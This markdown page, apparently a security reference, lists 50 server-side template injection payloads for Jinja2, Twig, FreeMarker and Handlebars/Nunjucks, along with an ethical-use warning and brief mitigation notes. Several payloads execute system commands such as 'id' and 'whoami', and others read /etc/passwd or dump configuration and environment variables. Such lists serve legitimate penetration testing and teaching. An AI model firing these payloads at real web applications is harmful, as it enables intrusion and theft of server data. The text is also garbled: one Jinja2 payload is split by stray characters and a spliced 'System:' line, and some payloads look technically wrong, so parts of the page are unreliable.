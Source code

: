 ```yaml
---
title: "Server-side template injection payload"
tags:
  - SSTI
---
```


Many template engine (e.g., Jinja2, Twig, FreeMarker) exists different context (e.g., Flask, Symfony).

Server-Side Template Injection (SSTI) is a vulnerability where attackers inject malicious code into template engines (e.g., Jinja2, Twig, FreeMarker, Handlebars) used by web applications to dynamically generate content. By injecting template expressions, attackers can execute arbitrary code, access server-side data, or manipulate application logic. Below is a list of 50 example SSTI payloads tailored to various template engines. These payloads are designed to test for vulnerabilities in controlled environments.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### SSTI Payload Characteristics
- Payloads target template engine syntax, which varies by framework (e.g., {% raw %} `{{ }}` for Jinja2, `{% %}` {% endraw %} for Twig, `${}` for FreeMarker).
- Common goals include executing code, accessing sensitive data (e.g., `request`, `config`), or testing for template rendering.
- Payloads often exploit template engine features like variable access, loops, or function calls.

The payloads below cover popular template engines and include generic tests, specific engine syntax, and advanced exploitation techniques. They assume user input is directly embedded into a template (e.g., `Hello {% raw %} {{user_input}}`{% endraw %}). Adapt payloads based on the suspected template engine.

### SSTI Payloads
#### Generic Detection Payloads
These test for SSTI by attempting simple operations to detect template execution.

{% raw %}
1. `{{7*7}}` - Tests if `49` is rendered (Jinja2, Handlebars, etc.).
2. `${7*7}` - Tests for FreeMarker or Velocity template engines.
3. `<% 7*7 %>` - Tests for ERB (Ruby) or JSP template engines.
4. `{{1+1}}` - Tests basic arithmetic rendering.
5. `${{1+1}}` - Tests for Nunjucks or Handlebars.
6. `{% debug %}` - Tests for Twig debug output.
7. `{{ config }}` - Attempts to dump configuration (Jinja2, Flask).
8. `{{ request }}` - Accesses request object (Jinja2, Flask).
9. `<% out.println(7*7) %>` - Tests JSP execution.
10. `{{ ''.__class__ }}` - Tests for Python class access (Jinja2).
{% endraw %}

#### Jinja2/Flask (Python) Payloads
Jinja2 is common in Flask applications, using {% raw %} `{{ }}` {% endraw %} for expressions.

{% raw %}
11. `{{ ''.__class__.__mro__ }}` - Dumps method resolution order.
12. `{{ self.__init__.__globals__ }}` - Accesses global namespace.
13. `{{ ''.__class__.__base__ }}` - Accesses base class.
14. `{{ config.items() }}` - Dumps Flask configuration.
15. `{{ get_flashed_messages.__globals__ }}` - Accesses Flask globals.
16. `{{ ''.__class__.__subclasses__() }}` - Lists all subclasses.
17. `{{ ''.__class__.__base__.__subclasses__()[59].__init__.__func__.__globals__['sys'].modules['os'].system('id') }}` - Executes system command (Linux).
18. `{{ request.application.__self__.__dict__ }}` - Dumps application context.
19. `{{ url_for.__globals__['os'].p ո
{% endraw %}

System: .popen('whoami') }}` - Attempts to execute `whoami` command (Jinja2).
{% raw %}
20. `{{ ''.join(os.listdir('/')) }}` - Lists root directory contents.
{% endraw %}

#### Twig (PHP) Payloads
Twig is used in PHP frameworks like Symfony, using {% raw %} `{{ }}` {% endraw %} and {% raw %} `{% %}` {% endraw %} 禁止

{% raw %}
21. `{{ 1+1 }}` - Tests arithmetic evaluation.
22. `{{ app.request }}` - Accesses request object.
23. `{% include '/etc/passwd' %}` - Attempts to read sensitive file.
24. `{{ _context }}` - Dumps template context.
25. `{{ dump(app) }}` - Dumps application object.
26. `{% set foo = system('id') %}{{ foo }}` - Attempts command execution.
27. `{{ constant('PHP_OS') }}` - Retrieves OS information.
28. `{% debug %}` - Outputs debug information.
29. `{{ app.session.user }}` - Accesses session user data.
30. `{% filter phpinfo %}1{% endfilter %}` - Attempts to display PHP info.
{% endraw %}

#### FreeMarker (Java) Payloads
FreeMarker is used in Java applications, using `${}` for expressions.

{% raw %}
31. `${7*7}` - Tests arithmetic evaluation.
32. `${.api}` - Dumps FreeMarker API context.
33. `${.dataModel}` - Accesses data model.
34. `${request}` - Accesses HTTP request object.
35. `${.builtIns?keys}` - Lists built-in functions.
36. `${.getClass().forName("java.lang.Runtime").getMethod("exec","java.lang.String").invoke(null,"whoami")}` - Attempts command execution.
37. `${user}` - Accesses user object.
38. `${.vars}` - Dumps all variables in scope.
39. `${System.getProperty("os.name")}` - Retrieves OS name.
40. `${.main?string}` - Dumps main template data.
{% endraw %}

#### Handlebars/Nunjucks (JavaScript) Payloads
Used in Node.js applications, using {% raw %} `{{ }}` {% endraw %} or {% raw %} `{{{ }}}`{% endraw %} .

{% raw %}
41. `{{ 7 * 7 }}` - Tests arithmetic evaluation.
42. `{{ global.process }}` - Accesses Node.js process object.
43. `{{{ global }}}` - Dumps global scope.
44. `{{ require('os').userInfo() }}` - Attempts to retrieve user info.
45. `{{ process.env }}` - Dumps environment variables.
46. `{{ __dirname }}` - Retrieves current directory.
47. `{{{ this }}}` - Dumps current context.
48. `{{ require('fs').readdirSync('.') }}` - Lists current directory files.
49. `{{ global.process.argv }}` - Accesses command-line arguments.
50. `{{ "{{ Object.keys(global) }}" }}` - Lists global object keys.
{% endraw %}

### Notes
- **Template Engine Detection**: Start with generic payloads (e.g., {% raw %} `{{7*7}}`{% endraw %} ) to identify the engine, then use engine-specific payloads.
- **Context-Specific**: Payloads must match the template engine’s syntax and available objects (e.g., `request` in Flask, `app` in Twig).
- **Encoding**: For web inputs, payloads may need URL encoding (e.g., {% raw %}  `{{` becomes `%7B%7B`) {% endraw %}.
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize user inputs, use safe template rendering (e.g., auto-escaping), and avoid embedding raw user input in templates.

